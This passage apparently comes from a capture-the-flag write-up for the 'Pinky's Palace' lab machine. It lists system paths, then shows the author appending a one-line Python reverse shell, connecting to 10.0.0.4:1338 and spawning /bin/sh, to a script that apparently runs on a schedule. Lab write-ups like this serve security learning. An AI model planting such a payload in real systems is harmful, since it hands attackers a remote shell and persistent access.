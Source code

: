 /usr/local/share/xml/schema
/usr/local/share/xml/misc
/usr/local/share/ca-certificates
/usr/local/share/man
/usr/local/sbin
/usr/local/etc
/usr/local/include
/usr/local/games
/usr/local/src
/usr/local/lib
/usr/local/lib/python3.5
/usr/local/lib/python3.5/dist-packages
/usr/local/lib/python2.7
/usr/local/lib/python2.7/dist-packages
/usr/local/lib/python2.7/site-packages
/usr/local/bin
/usr/local/bin/justincase.py
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/expiry
/usr/bin/passwd
/usr/bin/chage
/usr/bin/crontab
/usr/bin/chsh
/usr/bin/dotlockfile
/usr/bin/bsd-write
/usr/bin/ssh-agent
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/wall
/run/log/journal
/run/log/journal/8e062ca349a24e31963ed63e0d3ad7d9
/bin/mount
/bin/ping
/bin/umount
/bin/su
{% endhighlight %}

I decided to try my luck and put there reverse shell, as it may be run at specified time intervals. 

{% highlight text %}
pinky@pinkys-palace:~$ cat /usr/local/bin/justincase.py
cat /usr/local/bin/justincase.py
#!/usr/bin/env python

# Soon to be backup script for my palace!

pinky@pinkys-palace:~$ nano /usr/local/bin/justincase.py
pinky@pinkys-palace:~$ cat /usr/local/bin/justincase.py
#!/usr/bin/env python

# Soon to be backup script for my palace!

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.4",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}
